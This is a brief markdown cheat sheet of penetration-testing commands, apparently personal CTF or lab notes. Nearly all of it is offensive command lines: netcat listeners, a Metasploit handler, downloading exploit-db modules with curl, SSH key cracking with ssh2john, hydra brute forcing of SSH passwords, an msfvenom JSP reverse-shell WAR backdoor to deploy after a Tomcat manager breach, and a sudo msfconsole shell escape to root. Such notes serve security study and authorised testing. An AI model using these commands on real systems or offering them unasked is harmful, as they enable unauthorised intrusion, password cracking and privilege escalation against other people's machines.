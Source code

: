 
## Get Version of Service

NetCat

```
nc IP PORT
```

Listen on port
```
nc IP PORT -lvnp
```

Listen throuh metsploit
```
use exploit/multi/handler
```

## Find Exploits with SearchSploit

```
searchsploit servicename version
```

## Add new modules to metasploit from exploit-db

Get path from searchsploit

```
curl http://www.exploit-db.com/download/ID  /root/.msf4/modules/exploits/custom/CUSTOMFILENAME
```



## Metadata

```
exiftool file
```

## Web Server:

```
python3 -m http.server PORT
```

Retrieve:
```
wget http://IP:PORT/PATH
```

# SSH

## SSH with RSA file

```
ssh -i /path/to/file user@IP
```
## Convert id_rsa to crackable

```
python3 /usr/share/john/ssh2john.py id_rsa > file.txt
```

### Brute Forcing Passwords

```
hydra -l USER -P /path/to/wordlist ssh://IP
```

https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials


# Apache

## After /manager breach

### Make Offensive WAR file

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=4449 -f war > backdoor.war
```


# Sudo Metasploit exploit

```
sudo msfconsole
```

```
irb
system("/bin/bash")
```
